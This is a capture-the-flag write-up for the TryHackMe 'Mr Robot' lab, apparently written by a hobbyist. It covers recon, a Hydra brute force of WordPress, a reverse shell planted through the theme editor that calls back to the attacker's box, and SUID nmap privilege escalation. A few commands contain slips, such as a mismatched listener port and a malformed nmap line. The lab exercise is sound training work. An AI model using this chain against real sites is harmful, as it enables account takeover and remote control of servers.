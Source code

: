 # Mr Robot CTF Write up
As per any CTF on Tryhackme make sure everything is up and running and the target system is booted 

For this write up I will be using an attack box provided by Tryhackme however you can use your own machine if you want using OpenVPN (documentation on how to setup OVPN can be found on Tryhackme's beginners room)

**[Upon finishing this CTF you will be awarded the Mr Robot CTF badge](https://tryhackme.com/UwUtisum/badges/mr-robot)**
## Recon:
as per any pen testing challenge we will start by doing some basic recon on the site  
to start I ran a simple nmap scan to see what services are running on the host
Nmap command used:

    nmap -v [TARGET IP]

![Nmap Scan](https://femboy.beauty/WW5xc.png)

as you can see above we have 3 services running on the host machine 

 - Port: 22 SSH Server
 - Port: 80 HTTP Service
 - Port: 443 HTTPS Service

when visiting the site attached to the target machine you will be greeted by a very nice looking terminal based website i will leave this part to you as this was very fun to poke around with its many commands 
![MR robot website](https://femboy.beauty/HOSuq.png)

next we will run a go buster scan on the site attached to the target server to find any hidden directory's 
Go buster command:

    gobuster dir -u http://[TARGET IP]:80 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
This command is a little over kill as this word list is more in-depth than others however it will make sure we get a better picture of all the directory's within the site, ***this command may take a while to finish***

Below is the results from the gobuster scan:
![go buster scan](https://femboy.beauty/2Vhmp.png)

Using this information we can see that the website is a WordPress site, this is clear by the directory's 
**/wp-admin** and **/wp-content** another thing we can notice is the presence of a **robots file** some times this file can hold content the owner might not want being public 

contents of the robots file:

![robots file](https://femboy.beauty/OslNi.png)

**PERFECT!!** we can now see that we have found key 1 of 3 all we need to do now is open the file
![key1](https://femboy.beauty/afo3P.png)

Also listed in the Robots file is a **fsocity.dic** file
lets have a look at that also,
when going to the link **[TARGET IP]/fsocity.dic** it downloads the file to our PC opening this file will show us what seems to be a word list over 850k lines big<br>
![fsocity.dic pic](https://femboy.beauty/P7NAh.png)
## Exploitation:
**now the fun part x3**
first observation is the name **Elliot** in the **Fsocity.dic** file when entering this into our word press login page that we found from our gobuster search it informs us that it is a username used by the site
![Observations](https://femboy.beauty/MunTb.png)
However the **Fsocity.dic** file has many duplicate entry's so before we can progress we need to cut down the list and remove the duplicates to do this we will run the command below:

    sort fsocity.dic | uniq -d > wrd-list && sort fsocity.dic | uniq -u >> wrd-list
this will make a new file called **wrd-list** we will use this file instead of **fsocity.dic** from now on
 
before we can use **Hydra** we will need to figure out what type of request we will need to send to the word press site to brute force the password
to do this we will use **burp suite**
when loading up **burp suite** make sure to start a temporary project
![burp suite temp project](https://femboy.beauty/tlIGt.png)

and then navigate to the **Proxys tab** make sure intercept is on and open the browser
![Burp suite proxy](https://femboy.beauty/QaHMe.png)
Next we will need to navigate to the link **http://[TARGET IP]/wp-login.php** in the burp browser while making sure to click the forward button in burp suite to manually forward requests so the page loads

When entering the user name **Elliot** with a random password burp suite will find the type of request the client sends to the word press server
![capturing request](https://femboy.beauty/5r5oT.png)

with this knowledge we can use **Hydra** to use the **wrd-list** as a word list to try for a password, the reason we are doing this is due to the large size of the file **wrd-list**
we can do this by running the command: 

    hydra -l elliot -P wrd-list [TARGET IP] http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 30
    
 **BINGO** we have Elliots wordpress password 
 ![Hydra output](https://femboy.beauty/5d_1G.png)
Now using his word press password we can login to the admin portal for the site located at **http://[TARGET IP]/wp-login.php**

When we login we will be greeted by this wordpress portal
![wordpress dashboard](https://femboy.beauty/fokny.png)
## deploying a backdoor on the site

we will be using a **reverse shell** on the site to get access to the ssh server attached to the host machine 
first we will need to find a page that we will use to initialise our reverse shell to do this we navigate to the appearance tab and select editor 
![wp themes](https://femboy.beauty/PpXgm.png)
next we will need a reverse shell script I will be using [this one](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) 
now we just enter the script into the editor in the wordpress admin portal like so
![enter image description here](https://femboy.beauty/cVnay.png)
**MAKE SURE YOU ENTER THE SCRIPT INTO ARCHIVES.PHP**
in the script there are these 2 lines near the top:

    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 1234;       // CHANGE THIS
I will be changeing the port to 8080 and we will need to change the IP above to the IP of **your attack box** 
   now that we have done that we click update file
   on the attackbox open a new terminal and run the command below:
   

    nc -lnvp 8080
    
   this will listen on port 1234 for any incoming connections, to invoke a connection all we do is navigate to **http://[TARGET IP]/wp-content/themes/twentyfifteen/archive.php** 
[Video of Reverse Shell working](https://femboy.beauty/Ooypc.mp4)

now that we are in we can do some searching on the host server for goodies :3
to start with I checked what was in the directory I booted into using the command **ls** next I checked what was in the home directory and found there was a folder called **robot**
![enter image description here](https://femboy.beauty/_zmhx.png)

next when i was in home/robot we find a few files of interest

![enter image description here](https://femboy.beauty/jGFWO.png)

and boom we have found key 2 of 3 to view its contents we would use cat how ever we lack permissions to open the file
![enter image description here](https://femboy.beauty/xXBP4.png) 

next lets try to read the contents of the password.raw-md5 file
![enter image description here](https://femboy.beauty/Emcef.png)

Perfect now we have a hashed password for the robot user
to decrypt this hash I used [hashes.com](https://hashes.com/en/decrypt/hash)

![enter image description here](https://femboy.beauty/dje3f.png)

this gives us the password of **abcdefghijklmnopqrstuvwxyz**

next we try to run su robot to try and login to the robot user how ever we can only run su in a terminal

![enter image description here](https://femboy.beauty/Fyo50.png)

to fix this all we need to do is run the python command below to force us into a terminal on the host 

    python -c 'import pty;pty.spawn("/bin/bash")'
now we have a full terminal on the host machine now to login to robot
and view the content of the second key 

![enter image description here](https://femboy.beauty/fM6dk.png)

Next we will need to escalate our privileges to root 
next we will check for  **SUID files** using the command below:

    find / -perm -u=s -type f 2>/dev/null
  
  ![enter image description here](https://femboy.beauty/bI6gW.png)
  
as we can see here is all the file paths that have special permissions odly enough Nmap is listed above 
as weird is it sounds we will use Nmap to escalate our privileges to root 
all we need to do is open the nmap directory and boot nmap (yes it is that simple lol)
to get root i ran the commands below:

    cd /usr/local/bin/nmap --interactive 
    !sh
    whoami
    

![enter image description here](https://femboy.beauty/jMi9I.png)

Now that we are root we can CD into the root directory and find our 3rd and final key :D

![enter image description here](https://femboy.beauty/97ad2.png)

and just like that we have our last key x3

